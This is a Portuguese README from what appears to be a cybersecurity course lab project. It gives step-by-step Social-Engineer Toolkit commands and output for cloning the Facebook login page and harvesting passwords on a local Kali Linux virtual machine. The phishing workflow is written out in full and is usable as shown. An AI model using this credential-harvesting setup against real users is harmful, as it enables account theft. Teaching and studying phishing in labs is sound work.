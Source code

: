 <h1>
    <a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span>Desafio de projeto</span>
    <img align="center" width="100px" src="https://hermes.dio.me/tracks/f7103da6-32cf-46a4-be1c-c97067534355.png">    
</h1>

Disponibilização do **README.md** com orientações de como criar um Phishing para capturar senhas de login do Facebook.<br> **Formação Cybersecurity Specialist** da <img width="70px" background-color="black" src="https://hermes.digitalinnovation.one/assets/diome/logo.svg"> [Digital Innovation One](https://www.dio.me/).

**Pré-Requisitos:**

- **VM Windows**
- **VM Kali Linux**
- **Setoolkit:** Ferramenta para criar uma página falsa do Facebook para captura de senhas

## Configurando o Phishing no Kali Linux

1. Acessando com root: 
``` 
$ sudo su - root
```

2. Iniciando  a ferramenta **Setoolkit**: 
```
# setoolkit
```

3. Selecionando o tipo de ataque, neste caso a **opção 1**: 
```
...
            Visit: https://www.trustedsec.com
    It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools:

Select from the menu:

    1) Social-Engineering Attacks 
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About

    99) Exit the Social-Engineer Toolkit

set> 1
```

4. Selecionando o vetor de ataque no próximo menu, neste caso a **opção 2**: 
``` 
Select from the menu:

    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vectors
    7) Wireless Access point Attack Vectors
    8) QRCode Generator  Attack Vectors
    9) Powershell  Attack Vectors
    10) Third Party Modules

    99) Return back to the main menu.

set> 2
```

5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:

![Alt text](prints/passwd.png "Captura de tela do setoolkit")

![Alt text](prints/passwd1.png "Captura de tela do setoolkit")


## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf)
